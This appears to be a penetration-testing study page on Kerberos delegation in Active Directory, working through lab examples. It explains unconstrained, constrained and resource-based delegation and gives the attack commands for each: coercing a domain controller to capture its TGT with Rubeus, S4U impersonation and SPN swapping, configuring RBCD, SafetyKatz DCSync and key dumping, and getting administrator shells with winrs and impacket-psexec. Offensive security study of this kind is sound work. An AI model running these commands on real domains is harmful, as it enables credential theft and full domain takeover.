



---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Delegations

## Double Hop Issue

Kerberos Delegation is a mechanism designed to address the **Kerberos double hop issue**, which arises when an authenticated user accesses a remote service (first hop), and that service must then access another resource on a different system (second hop) on behalf of the same user.&#x20;

<figure><figcaption><p>The Kerberos double hop issue.</p></figcaption></figure>

This issue stems from the fact that both **access tokens and credentials are tied to a user’s logon session**. The **access token defines the user’s local security context**—used by the operating system to control what the user can do on the local machine—while **credentials**, such as NTLM hashes or Kerberos tickets, **represent the user’s network security context** and are used to authenticate to remote systems. Therefore, unless delegation is configured, **a service that receives an access token cannot leverage that token to authenticate as the user to another system**.

<figure><figcaption><p>Access tokens and credentials are tied to a user's logon session.</p></figcaption></figure>

To overcome the Kerberos double hop issue, two primary approaches exist:

* [**CredSSP**](https://learn.microsoft.com/en-us/windows/win32/secauthn/credential-security-support-provider): Stores user credentials in cleartext on the first hop, allowing the second hop to reuse them. While effective, this method introduces significant security concerns due to plaintext credential exposure.
* **Kerberos Delegation**: Enables services to reuse a user's Kerberos-based authentication to access other resources across the network. This allows impersonation beyond the local system without exposing credentials directly, and it can be configured with varying levels of control and restriction depending on the delegation type.

There are three main types of Kerberos delegation:

<table><thead><tr><th width="159.33331298828125">Delegation Type</th><th>Description</th></tr></thead><tbody><tr><td>Unconstrained</td><td>Grants a service unrestricted ability to <strong>impersonate a user to any service in the domain</strong>.</td></tr><tr><td>Constrained</td><td>Limits impersonation to <strong>specific services on specific hosts</strong>. If a user authenticates using a method other than Kerberos (e.g., NTLM), the service can still delegate using <strong>Protocol Transition</strong>, converting the authentication method into a Kerberos ticket to perform delegation.</td></tr><tr><td>Resource-Based Constrained</td><td>Defined on the resource server rather than the delegating service. This allows the target server to <strong>specify which principals are allowed to delegate to it</strong>.</td></tr></tbody></table>

## Unconstrained

When a user authenticates to a service configured for Unconstrained Delegation (UD), the DC **includes the user’s TGT inside the TGS** response. The service decrypts this TGS using its own NTLM password hash, extracts the TGT, and stores it in LSASS. With this TGT available, the service can now request additional TGS tickets on behalf of the user for any service in the domain, allowing the server to **fully impersonate the user** over the network.

<figure><figcaption><p>The uncostrained delegation process (image adapted from <a href="https://thalpius.com/2024/05/31/microsoft-defender-for-identity-recommended-actions-unsecure-kerberos-delegation/">here</a>).</p></figcaption></figure>

This behavior introduces a critical security risk: **if a host configured for UD is compromised, any user who authenticates to it exposes their TGT to the attacker**, including privileged users such as Domain Admins and machine accounts (e.g. `dc01$`). The host becomes a passive collection point for TGTs. The attacker can to wait for privileged users to connect naturally or to **actively force** a connection from a privileged account to the compromised UD host. Some Windows services make this coercion possible:

<table><thead><tr><th width="252.333251953125">Protocol</th><th width="171.33331298828125">Service</th><th width="211.0001220703125">Default on Server OS</th><th width="110.6666259765625">Ports</th></tr></thead><tbody><tr><td>MS-RPRN</td><td>Print Spooler</td><td>Yes</td><td>445</td></tr><tr><td>MS-WSP</td><td>Windows Search</td><td>No (Default on Client OS)</td><td>445</td></tr><tr><td>MS-DFSNM (MDI detects this)</td><td>DFS Namespaces</td><td>No</td><td>445</td></tr></tbody></table>



Enumerate hosts with UD configured using PowerView or the ActiveDirectory module:

```powershell
# PowerView
Get-DomainComputer -Unconstrained

# AD module
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```



Launch Rubeus in monitor mode from the compromised host:


```powershell
.\Rubeus.exe monitor /targetuser:DCORP-DC$ /interval:5 /nowrap
[*] Action: TGT Monitoring
[*] Target user     : DCORP-DC$
[*] Monitoring every 5 seconds for new TGTs
```




Force a connection from the attacking machine using [MS-RPRN](https://github.com/leechristensen/SpoolSample), [WSPCoerce](https://github.com/slemire/WSPCoerce), or [DFSCoerce](https://github.com/jfma7/DFSCoerce-exe):


When leveraging WSP or DFS use the netBIOS name and not the FQDN as with RPRN.



```powershell
# Print Spooler (the error is expected)
.\MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local
RpcRemoteFindFirstPrinterChangeNotificationEx failed.Error Code 1722 - The RPC server is unavailable.

# Windows Search
.\WSPCoerce DCORP-DC DCORP-APPSRV

# Distributed File System
.\DFSCoerce-andrea.exe -t dcorp-dc -l dcorp-appsrv
```


This will result in capturing the Base64-encoded TGT on the Rubeus listener:


```powershell
[*] 6/30/2025 7:03:17 AM UTC - Found new TGT:

  User                  :  DCORP-DC$@DOLLARCORP.MONEYCORP.LOCAL
  StartTime             :  6/29/2025 10:02:16 PM
  EndTime               :  6/30/2025 8:01:36 AM
  RenewTill             :  7/6/2025 10:01:36 PM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

    doI...BTA==

[*] Ticket cache size: 1
```




The ticket can be injected in the session and used directly:


```powershell
# Inject the ticket
> .\Rubeus.exe ptt /ticket:doI...BTA==

# Confirm the ticket is cached
> klist
Cached Tickets: (1)

#0>     Client: DCORP-DC$ @ DOLLARCORP.MONEYCORP.LOCAL
        Server: krbtgt/DOLLARCORP.MONEYCORP.LOCAL @ DOLLARCORP.MONEYCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize
```


Perform the [DCSync](dcsync.md) attack:


```powershell
SafetyKatz.exe "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```




## Constrained

Constrained Delegation with Protocol Transition (S4U) enables a service to impersonate users to **access specific services on specific hosts**—unlike Unconstrained Delegation, it does not allow free impersonation to arbitrary resources. Instead, it leverages Kerberos extensions `S4U2Self` and `S4U2Proxy` to maintain tighter control and more granular delegation.

### With PT

In Constrained Delegation with Protocol Transition, a user authenticates to a front-end service (e.g., a web server) using a non-Kerberos method, such as NTLM or basic auth.&#x20;

That service account, if configured for Protocol Transition (i.e., has the `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION` flag), can request a ST to itself on behalf of the user—this is the `S4U2Self` step. **No user password is required in this process**. The DC validates that the service is trusted for delegation and that the user is not explicitly marked as `sensitive for delegation`. If the check passes, it returns a forwardable ST for the user addressed to the service account itself.

With that ticket in hand, the service can now request a second ST using `S4U2Proxy`, this time to a target service listed in its `msDS-AllowedToDelegateTo` attribute. The KDC confirms that the target SPN is permitted, and if so, issues a new ST that the service can use to authenticate as the user to the downstream resource.

<figure><figcaption><p>Constrained Delegation with protocol transition.</p></figcaption></figure>

This setup, however, introduces two key risks if the delegating account (e.g., `websvc`) is compromised. First, with `S4U2Self`, the service can obtain a forwardable ticket for **any domain user**, including highly privileged ones such as Domain Admins. That means any downstream service listed in `msDS-AllowedToDelegateTo` becomes reachable as a privileged identity. A compromised service account essentially becomes a powerful pivot point to lateral movement.

<figure><figcaption><p>Targeting the <code>S4U2Self</code> step.</p></figcaption></figure>



Enumerate users and/or computers with Contrained Delegation enabled with PowerView or the Active Directory module:


```powershell
# PowerView
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth

# AD module
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```




Make the `S4U2Self` and `S4U2Proxy` requests using Rubeus:


```powershell
# Make the ST requests impersonating the administrator and targeting CIFS
>.\Rubeus.exe s4u /user:websvc /aes256:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7 /impersonateuser:Administrator /msdsspn:CIFS/dcorp-mssql.dollarcorp.moneycorp.local /ptt

# Inspect the injected ticket
>klist

#0>     Client: Administrator @ DOLLARCORP.MONEYCORP.LOCAL
        Server: CIFS/dcorp-mssql.dollarcorp.moneycorp.local @ DOLLARCORP.MONEYCORP.LOCAL
```




Access the target's file system as an Administrator:

```powershell
dir \\dcorp-mssql.dollarcorp.moneycorp.local\c$
```



Second, the SPN value within the `S4U2Proxy` request is in plaintext and allows service modification. Although the `msDS-AllowedToDelegateTo` field restricts which SPNs the ticket can be requested for, the SPN value in the initial `S4U2Proxy` request is plaintext and can be manipulated. For example, if delegation is configured for a non-instrusive service, e.g. `TIME/dcorp-dc`, the `TIME` part of the SPN can be swapped with another service like `LDAP`, enabling unintended access to more sensitive services.

<figure><figcaption><p>Targeting the <code>S4U2Proxy</code> step.</p></figcaption></figure>



Enumerate users and/or computers with Contrained Delegation enabled with PowerView:


```powershell
> Get-DomainComputer -TrustedToAuth

samaccountname                : DCORP-ADMINSRV$
useraccountcontrol            : WORKSTATION_TRUST_ACCOUNT, TRUSTED_TO_AUTH_FOR_DELEGATION
msds-allowedtodelegateto      : {TIME/dcorp-dc.dollarcorp.moneycorp.LOCAL, TIME/dcorp-DC}
```




From an elevated shell we can alter the service to from `TIME` to `LDAP`:


```powershell
.\Rubeus.exe s4u /user:dcorp-adminsrv$ /aes256:e9513a0ac270264bb12fb3b3ff37d7244877d269a97c7b3ebc3f6f78c382eb51 /impersonateuser:Administrator /msdsspn:time/dcorp-dc.dollarcorp.moneycorp.local /altservice:ldap /ptt
```


Inspecting the cached ticket confirms the administrative access to the DC's LDAP service:


```powershell
>klist

#0>     Client: Administrator @ DOLLARCORP.MONEYCORP.LOCAL
        Server: ldap/dcorp-dc.dollarcorp.moneycorp.local @ DOLLARCORP.MONEYCORP.LOCAL
```


Attacks like [DCSync](dcsync.md) can now be executed.



### Without PT

Constrained Delegation without Protocol Transition differs in that it requires the client to authenticate with Kerberos directly and **present an initial ST to the front-end service**. This ticket acts as the “evidence” for `S4U2Proxy`.&#x20;

<figure><figcaption><p>Constrained Delegation without Protocol Transition.</p></figcaption></figure>



This process requires only a ST as a requirement to invoke it and we need an account with at least one SPN. A machine account can be created using [PowerMad](https://github.com/Kevin-Robertson/Powermad):

```powershell
New-MachineAccount -MachineAccount attl4s
```

Impersonate `web01` using its credentials and generate the TGT using Rubeus:

```powershell
.\Rubeus.exe asktgt /user:web01$ /rc4:<hash> /domain:capsule.corp /nowrap /ptt
```



Any SPN account can configure RBCD for itself. So, configure `web01` to trust `attl4s`, so the latter can impersonate any user to the former:


```powershell
# Dot-source the module
. .\Microsoft.ActiveDirectory.Management.dll

# Set the RBCD bit
Set-ADComputer -Identity web01$ -PrincipalsAllowedToDelegateToAccount attl4s$ -Verbose
```




Now, we can use `attl4s` machine to obtain a ST for `web01`, impersonating the `administrator` (`S4U2Self` & `S4U2Proxy`):


```powershell
.\Rubeus.exe s4u /impesonateuser:administrator /user:attl4s /rc4:<hash> /msdsspn:cifs/web01.capsule.corp /nowrap
```


Since the second ST ticket is `forwardable`, it can be used on Kerberos for authenticating as `administrator` (TGT).



## Resource-based

Resource-Based Constrained Delegation (RBCD) **shifts control of delegation from Domain Administrators (DAs) to the owners of the resource or service being accessed**. Unlike traditional constrained delegation, where the front-end service (e.g. `websvc`) must be explicitly granted permission via the `msDS-AllowedToDelegateTo` attribute, RBCD relies on the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute (displayed in tools as `PrincipalsAllowedToDelegateToAccount`) on the resource itself (e.g. `sqlsvc`). This means that the administrator of a resource (e.g., SQL service) can grant delegation rights to a trusted machine (e.g., a frontend web server) without requiring elevated domain privileges such as `SeEnableDelegation`, which are typically restricted to DAs.

<figure><figcaption><p>Constrained vs. Resource-Based Constrained Delegation (<em>image taken from</em> <a href="https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html"><em>here</em></a><em>)</em>.</p></figcaption></figure>

To exploit RBCD effectively, two key conditions must be met:&#x20;

* The attacker needs write access to the target object (e.g. `GenericWrite` or `GenericAll`) in order to configure the delegation attribute.
* The attacker needs to have control over an account that has an SPN assigned—most often a computer account. The latter can be achieved either by compromising an existing domain-joined system or by creating a new one using the default `MachineAccountQuota`, which allows domain users to join up to 10 machines to the domain.



Create a domain-joined machine using [StandIn](https://github.com/FuzzySecurity/StandIn) and PowerView:

```powershell
# Create a computer account
.\StandIn.exe --computer <name> --make

# Get the SID of the computer account
Get-ADComputer -Filter * | Select-Object Name, SID

# Set the RBCD attribute
.\StandIn.exe --computer <dc> --sid <sid>
```

Configure RBCD on a compromised (`dcorp-std337$`) using PowerView or the Active Directory module:

```powershell
# PowerView
Set-DomainRBCD -Identity dcorp-mgmt -DelegateFrom 'dcorp-std337$' -Verbose

# AD Module
Set-ADComputer -Identity dcorp-mgmt -PrincipalsAllowedToDelegateToAccount $comps
```

Confirm that it worked using PowerView:

```powershell
> Get-DomainRBCD

SourceName                 : DCORP-MGMT$
SourceType                 : MACHINE_ACCOUNT
SourceAccountControl       : WORKSTATION_TRUST_ACCOUNT
DelegatedName              : DCORP-STD337$
DelegatedType              : MACHINE_ACCOUNT
DelegatedAccountControl    : WORKSTATION_TRUST_ACCOUNT
```

Extract the credentials of the machine account:

```powershell
.\SafetyKatz.exe "sekurlsa::ekeys" "exit"
```

Request and inject a ST (`S4U2Self` and `S4U2Proxy`) as any user:


```powershell
.\Rubeus.exe s4u /user:dcorp-std337$ /aes256:<aes256key> /msdsspn:http/dcorp-mgmt /impersonateuser:administrator /ptt
```


Access the target host as Administrator:

```powershell
winrs -r:dcorp-mgmt cmd.exe
```



Create a machine account and configure RBCD using Impacket:


```bash
# Add a machine account to the domain
impacket-addcomputer -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Summer2018!' -dc-ip <ip> '<domain/user:pass>'

# Configure RBCD
impacket-rbcd -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'dc$' -action 'write' '<domain/user:pass>' -dc-ip 10.10.11.174
```


Request a ST (`S4U2Self` and `S4U2Proxy`) as any user and convert it to Linux format (`ccache`):


```bash
# Generate ST for the administrator account
impacket-getST -spn 'cifs/<fqdn>' -impersonate 'administrator' 'domain/ATTACKERSYSTEM$:Summer2018!'

# Convert kirbi to ccache
impacket-ticketConverter ticket.kirbi ticket.ccache
```


Export and use the ticket:


```bash
# Export the ticket
export KRB5CCNAME=ticket.ccache

# Use the ticket
impacket-psexec -k -no-pass domain.local/Administrator@target.fqdn -dc-ip <dc-ip>
```


For an example of the above process see [Support](https://x7331.gitbook.io/boxes/boxes/easy/support#rbcd).



## Resources

* Some amazing lectures about Kerberos Delegation ([video](https://www.youtube.com/watch?v=p9QFdITuvgU), [video](https://www.youtube.com/watch?v=byykEId3FUs))
* A great presentation about Kerberos Delegation Attacks ([slides](https://shenaniganslabs.io/media/Constructing%20Kerberos%20Attacks%20with%20Delegation%20Primitives.pdf))
* Some good information about Delegations ([article](https://www.thehacker.recipes/ad/movement/kerberos/delegations/))
* Some great lectures on Constrained Delegation Attacks ([video](https://www.youtube.com/watch?v=gzqq2r6cZjc), [video](https://www.youtube.com/watch?v=Y2Wh2e6eZVc))
* A great lecture about Resource-Based Constrained Delegation ([video](https://www.youtube.com/watch?v=vlKwCTvp5_w))
* A nice box walkthough based on Resource-Based Constrained Delegation ([video](https://www.youtube.com/watch?v=xMTCZt5DRB0))
* In-depth article about Resource-Based Constrained Delegation ([article](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html))
